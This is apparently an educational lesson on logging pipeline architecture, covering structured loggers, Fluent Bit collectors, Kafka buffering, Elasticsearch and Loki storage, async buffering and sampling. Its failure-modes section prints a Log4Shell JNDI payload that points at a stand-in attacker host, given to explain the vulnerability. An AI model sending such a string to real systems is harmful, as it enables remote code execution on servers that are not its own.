



# Lesson 2: Logging Architectures

## 1. First-Principles Intuition & Invariants

Logging is the process of recording discrete, timestamped events emitted by a software system, preserving them in a durable store for subsequent retrieval, search, and analysis. Within the observability triad of logs, metrics, and traces, logs are unique in carrying arbitrary textual or structured payloads: metrics are pre-aggregated numeric time series with fixed cardinality, and traces capture causal request-span trees, but logs preserve the full fidelity of individual events. This distinction makes logs the primary substrate for post-incident forensic analysis, but it also makes them the most expensive pillar in terms of storage volume, ingestion throughput, and query cost.

### Information-Theoretic and Systems-Theoretic Foundations

From an information-theoretic perspective, log messages are low-entropy relative to their byte size. A typical application log line follows a template: `{"timestamp": "...", "level": "INFO", "service": "checkout", "message": "Order 12345 processed in 234ms"}`. The template itself is deterministic and carries near-zero Shannon entropy; the variable portions (the order ID, the latency) carry the actual information. This observation motivates two architectural patterns:

- **Structured logging** separates the schema (template) from the values (variable fields), enabling efficient compression, field-level indexing, and programmatic querying without regex parsing.
- **Log templating and extraction** systems (such as Drain or the pattern-discovery features in Loki) cluster log lines by template, compress the shared template once, and store only the variable tokens, dramatically reducing storage costs.

The Shannon entropy of a log stream $H(L)$ can be decomposed as:

$$H(L) = H(T) + \sum_{t \in T} p(t) \cdot H(V_t)$$

where $T$ is the set of log templates and $V_t$ is the set of variable values within template $t$. Because $|T| \ll |L|$ in practice (a service emitting millions of log lines typically uses only dozens to hundreds of distinct templates), the template entropy $H(T)$ is negligible, and most storage cost is in $H(V_t)$. This is why systems like Grafana Loki eschew full-text indexing entirely, indexing only a small set of metadata labels and compressing the log bodies, while Elasticsearch invests in inverted indices over all tokenized fields.

### Fundamental Invariants

Logging systems are governed by several invariants that create tension and necessitate architectural trade-offs:

1. **Durability vs. Latency**: A log message that has been "written" by the application is not durable until it has been flushed to persistent storage (fsync'd to disk or replicated across nodes). The application thread cannot block on this flush without degrading application latency. This tension is resolved through asynchronous buffering, but buffering introduces a window where data loss can occur if the buffer is in-memory and the process crashes.

2. **Throughput vs. Queryability**: Writing logs as raw appended bytes to a file is extremely fast (sequential I/O, near-zero parsing overhead). Making those logs searchable requires parsing, tokenization, and index construction, which is orders of magnitude more expensive per byte. Systems like Loki exploit this by deferring all parsing and analysis to query time, trading ingestion speed for query-time CPU cost. Elasticsearch does the opposite, investing in ingestion-time indexing for fast queries.

3. **Completeness vs. Cost**: Capturing every log event at full fidelity is theoretically ideal but practically infeasible at scale. A microservice emitting 10,000 log lines per second across 100 instances produces 1M lines/second, or roughly 100 TB/year of uncompressed log data before indexing overhead. Sampling strategies (probabilistic, level-based, or tail-based) reduce volume at the cost of completeness, and the choice of sampling rate directly affects the signal-to-noise ratio for incident investigation.

4. **Delivery Semantics**: Log pipelines must choose between at-least-once and at-most-once delivery. At-least-once guarantees no data loss but may produce duplicates on network retries or failover, requiring downstream deduplication. At-most-once is simpler and faster but silently drops messages under failure. Most production log pipelines (Fluentd, Fluent Bit, Vector) default to at-least-once with local disk buffering to bound the at-least-once window.

### The Write-Ahead Log Connection

The concept of logging in observability shares a deep architectural kinship with the write-ahead log (WAL) used in database systems. A database WAL records state mutations before they are applied to the data store, enabling crash recovery by replaying the log. Both observability logs and WALs share the same core properties: append-only writes, sequential I/O patterns, and the requirement for durability before acknowledgement. The difference is that a WAL is an internal mechanism for consistency, while observability logs are an external mechanism for insight. Understanding this parallel helps clarify why log ingestion systems often reuse database storage primitives: Kafka, for instance, is fundamentally a distributed WAL exposed as a general-purpose log broker, and it underpins many production logging pipelines.

## 2. Core Architecture & Mechanics

A production logging pipeline consists of four logical tiers: generation, collection, buffering/transport, and storage with query. Each tier introduces its own failure modes, performance characteristics, and design decisions.

```mermaid
graph LR
    subgraph sub_tier_1__generation ["Tier 1: Generation"]
        A1["App Instance 1\n(structured logger)"]
        A2["App Instance 2\n(structured logger)"]
        A3["App Instance N\n(structured logger)"]
    end

    subgraph sub_tier_2__collection ["Tier 2: Collection"]
        B1["Fluent Bit\n(sidecar)"]
        B2["Fluent Bit\n(daemonset)"]
    end

    subgraph sub_tier_3__buffer_transport ["Tier 3: Buffer/Transport"]
        C1["Kafka\n(partitioned, replicated)"]
    end

    subgraph sub_tier_4__storage___query ["Tier 4: Storage & Query"]
        D1["Elasticsearch\n(inverted index)"]
        D2["Loki\n(label index + compression)"]
        D3["S3 / Object Storage\n(cold archive)"]
    end

    A1 -->|"stdout/stderr\nor file" |> B1
    A2 -->|"stdout/stderr\nor file" |> B1
    A3 -->|"stdout/stderr\nor file" |> B2
    B1 -->|"HTTP/protobuf" |> C1
    B2 -->|"HTTP/protobuf" |> C1
    C1 -->|"consumer group" |> D1
    C1 -->|"consumer group" |> D2
    C1 -->|"lifecycle rule" |> D3
    D1 -->|"Kibana" |> E["Operators"]
    D2 -->|"Grafana" |> E
```

### Tier 1: Log Generation

Log generation is the application-side component that constructs and emits log records. The architectural decisions at this tier have the most profound impact on the entire pipeline because they determine the schema, volume, and semantic richness of all downstream data.

#### Structured vs. Unstructured Logging

Unstructured logging emits free-form text strings. It is human-readable but requires regex-based parsing downstream, which is fragile, expensive, and lossy. Structured logging emits records with a defined schema, typically JSON or Protocol Buffers, where each field is explicitly named and typed. This enables field-level indexing, schema validation, and programmatic correlation with metrics and traces.

The Go standard library's `log/slog` package (introduced in Go 1.21) provides structured logging with context propagation:

```go
package main

import (
    "context"
    "log/slog"
    "os"
    "time"
)

// OrderProcessor demonstrates structured logging with context propagation,
// log levels, and correlated fields that downstream systems can index.
type OrderProcessor struct {
    logger *slog.Logger
}

func (p *OrderProcessor) Process(ctx context.Context, orderID string, amountCents int64) error {
    // Attach request-scoped fields to a child logger so every log line
    // within this scope carries the correlation IDs without repetition.
    logger := p.logger.With(
        slog.String("order_id", orderID),
        slog.String("trace_id", traceIDFromContext(ctx)),
    )

    start := time.Now()
    logger.LogAttrs(ctx, slog.LevelInfo, "order_processing_started",
        slog.Int64("amount_cents", amountCents),
    )

    // ... business logic ...

    elapsed := time.Since(start)
    if elapsed > 500*time.Millisecond {
        logger.LogAttrs(ctx, slog.LevelWarn, "order_processing_slow",
            slog.Duration("elapsed", elapsed),
        )
    }

    logger.LogAttrs(ctx, slog.LevelInfo, "order_processing_completed",
        slog.Duration("elapsed_ms", elapsed),
    )
    return nil
}

// traceIDFromContext extracts the trace ID from the context, bridging
// logs and distributed traces.
func traceIDFromContext(ctx context.Context) string {
    if v, ok := ctx.Value(traceIDKey{}).(string); ok {
        return v
    }
    return "unknown"
}

type traceIDKey struct{}

func main() {
    // JSON handler writes newline-delimited JSON to stdout, which is the
    // standard interface for containerized log collection (Fluent Bit,
    // Vector, etc. read from stdout/stderr).
    handler := slog.NewJSONHandler(os.Stdout, &slog.HandlerOptions{
        Level: slog.LevelInfo,
    })
    logger := slog.New(handler)

    proc := &OrderProcessor{logger: logger}
    ctx := context.WithValue(context.Background(), traceIDKey{}, "abc-123-def-456")
    _ = proc.Process(ctx, "ORD-78910", 4999)
}
```

In Rust, the `tracing` crate provides a more sophisticated model where spans (not just log lines) are first-class objects, enabling structured event recording with hierarchical context:

```rust
use tracing::{info, warn, instrument, trace_span};
use tracing_subscriber::{fmt, EnvFilter};

// The #[instrument] attribute automatically creates a span with the
// function arguments as fields, propagating context across async calls.
#[instrument(skip(self, ctx), fields(order_id = %order_id))]
async fn process_order(&self, ctx: &RequestContext, order_id: &str, amount_cents: i64) -> Result<(), OrderError> {
    let start = std::time::Instant::now();

    info!(amount_cents, "order_processing_started");

    // ... business logic ...

    let elapsed = start.elapsed();
    if elapsed > std::time::Duration::from_millis(500) {
        warn!(elapsed_ms = elapsed.as_millis() as u64, "order_processing_slow");
    }

    info!(elapsed_ms = elapsed.as_millis() as u64, "order_processing_completed");
    Ok(())
}

fn init_telemetry() {
    // Configure a JSON formatter writing to stdout, with log-level
    // filtering controlled by the RUST_LOG environment variable.
    let filter = EnvFilter::try_from_default_env()
        .unwrap_or_else(|_| EnvFilter::new("info"));

    fmt()
        .json()
        .with_env_filter(filter)
        .with_target(true)  // include module path
        .init();
}
```

#### Log Levels and Semantic Meaning

Log levels encode the severity and intended audience of a log message. The semantics must be consistent across a system to enable effective filtering and alerting:

| Level | Semantic Meaning | Typical Use |
|-------|-----------------|-------------|
| TRACE | Finest-grained diagnostic detail | Function entry/exit, variable state |
| DEBUG | Diagnostic information for developers | Internal state transitions, cache hits/misses |
| INFO | Significant application events | Request processed, user authenticated, job completed |
| WARN | Recoverable degradation | Retried request, cache miss falling back to DB, approaching resource limit |
| ERROR | Operation failed but system continues | Failed request, exception caught, external API timeout |
| FATAL | System cannot continue | Unrecoverable state, required resource unavailable |

A common anti-pattern is using ERROR for expected, handled exceptions (e.g., a 404 response). This inflates error rates and desensitizes on-call engineers. ERROR should be reserved for conditions that require human attention.

### Tier 2: Log Collection

Log collectors aggregate log records from multiple sources on each host and forward them to the transport tier. The collection tier is where local buffering, parsing, enrichment, and initial filtering occur.

#### Agent Topologies

Three deployment patterns are common:

- **DaemonSet (node-level)**: One collector per node, reading from a shared log directory or container runtime socket. Lower resource overhead, but the collector is a shared failure domain for all pods on the node. Fluent Bit and Promtail commonly deploy this way.
- **Sidecar (pod-level)**: One collector per application pod, reading from a shared volume or localhost socket. Higher resource cost (one collector per pod), but isolates failures and allows per-application collector configuration.
- **Direct shipping (agentless)**: The application writes directly to the transport tier (e.g., HTTP POST to Loki, Kafka producer embedded in the app). Lowest infrastructure overhead but couples application code to the log transport and complicates local buffering.

#### Fluent Bit Configuration

Fluent Bit is a high-performance log collector written in C with a small memory footprint (~450 KB). It reads from input sources, optionally parses and enriches records, and forwards to output destinations:

```yaml
# fluent-bit.conf — production configuration for Kubernetes daemonset

[SERVICE]
    Flush           5          # Flush every 5 seconds
    Log_Level       info
    Daemon          off
    Parsers_File    parsers.conf
    HTTP_Server      on
    HTTP_Listen      0.0.0.0
    HTTP_Port        2020      # Built-in metrics endpoint

[INPUT]
    Name            tail
    Path            /var/log/containers/*.log
    Parser          docker
    Tag            kube.*
    Refresh_Interval 5
    Mem_Buf_Limit   256MB     # In-memory buffer limit before spilling to disk
    Skip_Long_Lines  on
    DB              /var/log/flb_kube.db   # Position checkpoint for crash recovery
    Path_Key        source_file

# Extract Kubernetes metadata (pod name, namespace, labels) from the tag
[FILTER]
    Name           kubernetes
    Match          kube.*
    Kube_URL       https://kubernetes.default.svc:443
    Merge_Log      on         # Parse nested JSON log content into top-level fields
    K8S-Logging.Parser  on    # Respect pod annotation: fluentbit.io/parser
    K8S-Logging.Exclude on    # Respect pod annotation: fluentbit.io/exclude

# Enrich with hostname
[FILTER]
    Name           modify
    Match          kube.*
    Add            hostname ${HOSTNAME}

# Route to Loki
[OUTPUT]
    Name           loki
    Match          kube.*
    Host           loki.observability.svc.cluster.local
    Port           3100
    Labels         job=fluent-bit,namespace=kubernetes,cluster=prod-us-east
    Line_Format    json
    Auto_Kubernetes_Labels  on

# Also fan out to Kafka for long-term archival
[OUTPUT]
    Name           kafka
    Match          kube.*
    Brokers        kafka-bootstrap.observability.svc:9092
    Topics         k8s-logs
    Format         json
    Retry_Limit    5          # At-least-once: retry up to 5 times
    Buffer_Path    /var/log/flb_kafka_buffer  # Disk-backed retry buffer
```

The `Mem_Buf_Limit` and `DB` checkpoint are critical for at-least-once delivery semantics. When the in-memory buffer fills (because the downstream is slow or unavailable), Fluent Bit spills to disk and records its position in the input file. On restart, it resumes from the checkpointed position, avoiding data loss but potentially re-sending records that were in-flight at crash time.

### Tier 3: Buffering and Transport

The transport tier decouples log producers (collectors) from log consumers (storage systems). This decoupling is essential because collectors and storage systems have different throughput characteristics, and storage systems may be temporarily unavailable during maintenance, rebalancing, or incidents.

Kafka is the dominant choice for log transport in large-scale environments. It provides partitioned, replicated, ordered log storage that acts as a shock absorber between high-throughput producers and variable-availability consumers. The architectural parallels between Kafka's internal log (an append-only, segment-based, offset-indexed sequence) and the write-ahead logs discussed in Section 1 are not coincidental: Kafka is, in essence, a distributed WAL broker.



Key parameters for log transport:

- **Partitioning**: Log records should be partitioned by a key that enables downstream parallelism without ordering violations. For Kubernetes logs, partitioning by namespace or service ensures that logs from the same service land on the same partition and are consumed in order.
- **Replication factor**: A minimum of 3 with `min.insync.replicas=2` ensures that the log broker can tolerate one broker failure without data loss. Producers must use `acks=all` to enforce this; `acks=1` risks data loss on leader failover.
- **Retention**: Log topics should use time-based retention (typically 24-72 hours) sized to exceed the maximum expected storage system outage. This buffer window is the at-least-once delivery guarantee for the overall pipeline.
- **Compression**: Log data compresses well (typically 3-5x with LZ4 or Snappy) due to the template redundancy discussed in Section 1. Enabling producer-side compression reduces network bandwidth and broker storage.

### Tier 4: Storage and Analysis

Log storage systems make a fundamental architectural choice that determines their performance profile: they either index log content at ingestion time (fast queries, slow ingestion) or defer parsing to query time (fast ingestion, slower queries). This choice is the single most impactful design decision in a log storage system.

#### Elasticsearch: Ingestion-Time Indexing

Elasticsearch (and its fork OpenSearch) stores log data in Apache Lucene segments, which use inverted indices to map tokenized terms to document IDs. At ingestion, each log record is parsed, tokenized, and inserted into the inverted index. This makes full-text search and field-level filtering extremely fast, but makes ingestion CPU- and I/O-intensive.

For log workloads, Elasticsearch uses time-based index patterns (e.g., `logs-prod-2024.01.15`) with Index Lifecycle Management (ILM) to automate the transition of indices through performance tiers:



A typical log search query in Elasticsearch uses the `_search` API with a bool query combining time-range, term-level, and full-text filters:

```json
{
  "_source": ["@timestamp", "level", "service", "message", "order_id", "trace_id"],
  "query": {
    "bool": {
      "filter": [
        {
          "range": {
            "@timestamp": {
              "gte": "2024-01-15T00:00:00.000Z",
              "lt": "2024-01-15T01:00:00.000Z"
            }
          }
        },
        { "term": { "level": "ERROR" } },
        { "term": { "service.name": "checkout-service" } }
      ],
      "must": [
        {
          "match_phrase": {
            "message": "order processing failed"
          }
        }
      ]
    }
  },
  "sort": [{ "@timestamp": "desc" }],
  "size": 100,
  "aggs": {
    "error_codes": {
      "terms": { "field": "error_code", "size": 20 }
    },
    "timeline": {
      "date_histogram": {
        "field": "@timestamp",
        "fixed_interval": "1m"
      }
    }
  }
}
```

The `filter` clause is preferred over `must` for term-level queries because filter results are cached and do not contribute to the relevance score, which is irrelevant for log queries where matching is binary.

#### Grafana Loki: Label Indexing with Deferred Parsing

Loki takes a fundamentally different approach inspired by the information-theoretic insight from Section 1: since log templates carry negligible entropy, indexing the full text is wasteful. Loki indexes only a small set of metadata labels (similar to Prometheus metric labels) and stores the log content as compressed chunks. Queries filter by label first, then scan and parse log content at query time using LogQL:

```
{namespace="production", service="checkout-service"} |= "ERROR" 
  | json 
  | line_format "{{.order_id}}: {{.message}}"
```

This design makes ingestion extremely fast (no tokenization or indexing) and storage very compact (compression of template-redundant content), but shifts CPU cost to query time. Loki is well-suited for environments where log retention volume is the dominant cost concern and queries are label-filtered rather than full-text.

The cardinality of Loki labels is a critical constraint: because Loki uses a label index, high-cardinality labels (like user IDs or request IDs) cause index explosion and must be avoided. This is the same cardinality problem that affects Prometheus, and it stems from the same architectural root cause: an inverted index's size grows with the product of the number of unique label values across all label keys.

## 3. High-Performance Optimization & Failure Modes

### Asynchronous Logging: The Ring Buffer Pattern

The most impactful performance optimization at the generation tier is asynchronous logging: decoupling the application thread (which calls the log API) from the I/O thread (which writes to the destination). Log4j 2's async mode, based on the LMAX Disruptor pattern, achieves this with a lock-free ring buffer:

```mermaid
graph LR
    subgraph sub_async_logging_ring_buffer ["Async Logging Ring Buffer"]
        T1["App Thread 1"] -->|"tryPublish\n(lock-free CAS)" |> R["Ring Buffer\n[slot0][slot1][slot2]...[slotN-1]\nfixed-size, pre-allocated"]
        T2["App Thread 2"] -->|"tryPublish\n(lock-free CAS)" |> R
        T3["App Thread N"] -->|"tryPublish\n(lock-free CAS)" |> R
        R -->|"consume barrier\n(batch size = B)" |> C["I/O Thread\n(serializers + writes to\nfile/socket/Kafka)"]
        R -.->|"full? backpressure\nor drop strategy"| T1
    end
```

The ring buffer is a fixed-size, pre-allocated array of log event slots. Application threads publish events by atomically incrementing a cursor (using compare-and-swap), which is a lock-free operation that avoids contention. The I/O thread reads events in batches from the buffer and writes them to the destination. Pre-allocating the slots avoids garbage collection pressure, which is critical in JVM environments.

The trade-off is between latency and drop rate. A larger buffer absorbs burst traffic but increases the risk of data loss on crash (events in the buffer are not yet durable). A smaller buffer reduces the loss window but drops events under burst, causing backpressure that can stall application threads.

A simplified implementation of this pattern in Go illustrates the mechanics:

```go
package asynclog

import (
    "encoding/json"
    "os"
    "sync/atomic"
    "time"
)

// RingBuffer is a fixed-size, lock-free single-producer/single-consumer
// ring buffer. Multi-producer support requires a CAS-based sequence
// claim like the LMAX Disruptor; this simplified version uses a single
// goroutine channel for multi-producer fan-in.
//
// In production, use a library like the LMAX Disruptor port or a
// bounded channel with explicit drop semantics.

const (
    bufferSize    = 1 << 16 // 65536 slots
    flushInterval = 100 * time.Millisecond
)

type LogEntry struct {
    Timestamp time.Time `json:"timestamp"`
    Level     string    `json:"level"`
    Message   string    `json:"message"`
    Fields    map[string]any `json:"fields,omitempty"`
}

type AsyncLogger struct {
    buffer   chan LogEntry
    drops    atomic.Uint64
    writer   *json.Encoder
    done     chan struct{}
}

// New creates an AsyncLogger that writes JSON to the given file.
// The buffer channel has a fixed capacity; when full, the producer
// is presented with a drop decision (here: non-blocking send).
func New(f *os.File) *AsyncLogger {
    l := &AsyncLogger{
        buffer: make(chan LogEntry, bufferSize),
        writer: json.NewEncoder(f),
        done:   make(chan struct{}),
    }
    go l.flushLoop()
    return l
}

// Log attempts to enqueue an entry. If the buffer is full, it
// increments the drop counter and returns immediately (at-most-once
// with backpressure-aware drop). An alternative strategy is to block,
// which provides backpressure to the application at the cost of latency.
func (l *AsyncLogger) Log(entry LogEntry) {
    select {
    case l.buffer <- entry:
    default:
        l.drops.Add(1)
    }
}

// flushLoop runs in a dedicated goroutine, draining the buffer in
// batches and writing to the underlying destination. Batching
// amortizes the per-write syscall overhead.
func (l *AsyncLogger) flushLoop() {
    batch := make([]LogEntry, 0, 512)
    ticker := time.NewTicker(flushInterval)
    defer ticker.Stop()

    for {
        select {
        case entry := <-l.buffer:
            batch = append(batch, entry)
            // Drain remaining buffered entries without blocking
            for len(batch) < cap(batch) {
                select {
                case e := <-l.buffer:
                    batch = append(batch, e)
                default:
                    goto FLUSH
                }
            }
        FLUSH:
            l.writeBatch(batch)
            batch = batch[:0]
        case <-ticker.C:
            if len(batch) > 0 {
                l.writeBatch(batch)
                batch = batch[:0]
            }
        case <-l.done:
            // Drain remaining entries on shutdown
            for len(l.buffer) > 0 {
                e := <-l.buffer
                batch = append(batch, e)
            }
            if len(batch) > 0 {
                l.writeBatch(batch)
            }
            return
        }
    }
}

func (l *AsyncLogger) writeBatch(batch []LogEntry) {
    for _, entry := range batch {
        _ = l.writer.Encode(entry)
    }
}

func (l *AsyncLogger) Close() {
    close(l.done)
}

func (l *AsyncLogger) Drops() uint64 {
    return l.drops.Load()
}
```

The `select` with a `default` case implements at-most-once drop semantics. Replacing `default:` with a blocking send would provide backpressure (at-least-once at the cost of application latency). The choice depends on whether the application values log completeness or request latency under load. For most production services, backpressure with a large buffer is preferred because silent log drops during incidents (when logs are most needed) are particularly damaging.

### Failure Modes and Mitigations

| Failure Mode | Cause | Mitigation |
|-------------|-------|------------|
| Log loss on producer crash | In-memory async buffer not flushed | Use disk-backed buffering in collector; enable `immediate_flush` for critical logs |
| Log duplication on collector restart | At-least-once delivery retries already-sent records | Accept duplication; deduplicate downstream using event IDs or rely on idempotent indexing |
| Backpressure cascade | Downstream storage slow -> collector buffer fills -> application blocked | Size buffers for worst-case burst; use Kafka as shock absorber; implement load shedding in collector |
| Index throttling | Elasticsearch bulk queue full, rejecting writes | Decouple ingestion from indexing with Kafka; tune `bulk.max_requests` and thread pool sizes; use time-based index routing to spread write load |
| Hot shard | High-volume single service writes to one Elasticsearch shard | Increase shard count per index; route by hash of service name to distribute writes |
| Log injection | Untrusted user input in log messages, enabling log forging or CRLF injection | Sanitize all user-supplied data before logging; use structured logging (JSON encoding escapes control characters) |
| Pipeline as attack surface | Log4Shell (CVE-2021-44228) demonstrated that log parsing pipelines can execute arbitrary code | Keep logging dependencies patched; isolate collectors from application process; use read-only filesystems for collector containers |
| Cardinality explosion | High-cardinality fields (user IDs, request IDs) used as Loki labels or Elasticsearch `keyword` mappings | Never use high-cardinality values as index labels; map as `text` or store as unindexed fields in Elasticsearch |

#### The Log4Shell Lesson

CVE-2021-44228 (Log4Shell) was a critical vulnerability in Log4j 2 where JNDI lookup in log message interpolation allowed remote code execution when a crafted string like `${jndi:ldap://attacker.com/Exploit}` was logged. This vulnerability is a stark illustration that logging systems are not passive infrastructure: they parse, interpret, and sometimes execute the content of log messages. Any log processing pipeline that interprets user-supplied content must treat that content as untrusted input and apply the same security controls as any other parser of untrusted data: input validation, sandboxing, and defense-in-depth.

#### Cardinality and Its Cost

The cardinality of a field is the number of distinct values it can take. In Elasticsearch, `keyword` fields are backed by an inverted index whose entry count is bounded by cardinality. A field like `user_id` with 10 million distinct values creates 10 million index entries per shard, consuming significant memory (the `fielddata` cache or doc values) and slowing queries. In Loki, the problem is more severe: Loki's label index is a key-value store where each unique combination of label values is a separate stream. A high-cardinality label like `request_id` creates one stream per request, each with its own chunk metadata, causing index and memory exhaustion.

The architectural lesson is that the indexing strategy must match the cardinality profile of the data: low-cardinality dimensions (service name, environment, log level) are suitable for indexing; high-cardinality values (request IDs, user IDs) should be stored as searchable but unindexed content, queried via full-text scan or temporal correlation rather than index lookup.

### Sampling Strategies

When log volume exceeds pipeline capacity, sampling reduces volume at the cost of completeness. Three sampling strategies are common:

- **Level-based sampling**: Drop DEBUG and TRACE logs entirely, keep all WARN and ERROR logs. Simple and effective for reducing steady-state volume, but loses diagnostic context during incidents.
- **Probabilistic sampling**: Retain a fixed percentage (e.g., 1%) of INFO logs. Preserves a statistical sample for trend analysis but loses individual event fidelity.
- **Tail-based sampling**: Defer the sampling decision until the log stream for a request is complete, then retain all logs for requests that resulted in errors or exceeded latency thresholds. This is the most information-preserving strategy but requires buffering logs per-request in the collector, which increases memory usage and complexity. OpenTelemetry collectors support tail-based sampling processors that correlate logs by trace ID.



Tail-based sampling is the production-preferred approach because it concentrates retention on the logs that matter for incident investigation while aggressively reducing volume for healthy traffic. The cost is the per-request buffering in the collector, which requires sufficient memory to hold in-flight log records for the duration of the longest expected request.

### End-to-End Delivery Guarantees

The composition of at-least-once segments does not yield an end-to-end at-least-once guarantee without careful design. Each tier (generation, collection, transport, storage) may individually guarantee at-least-once, but the boundaries between tiers introduce potential loss:

- If the application crashes between calling `logger.Info()` and the async logger enqueuing the event, the log is lost. This is the "in-process gap."
- If the collector crashes between reading from the file and writing to Kafka, the event is in the collector's in-memory buffer and is lost unless the collector uses disk-backed buffering.
- If Kafka acknowledges a write but the consumer (e.g., Logstash) crashes after reading but before indexing into Elasticsearch, the event is lost unless the consumer manages offsets transactionally.

The practical approach is not to eliminate all loss but to bound it: use disk-backed buffering at the collector, use Kafka with `acks=all` and sufficient retention, use consumer-side checkpointing (committed offsets only after successful indexing), and monitor the end-to-end gap between log generation rate and log ingestion rate as a lag metric. A growing lag indicates that the pipeline is unable to keep up, and the buffer window (Kafka retention) determines how long the system can sustain the gap before data loss begins.
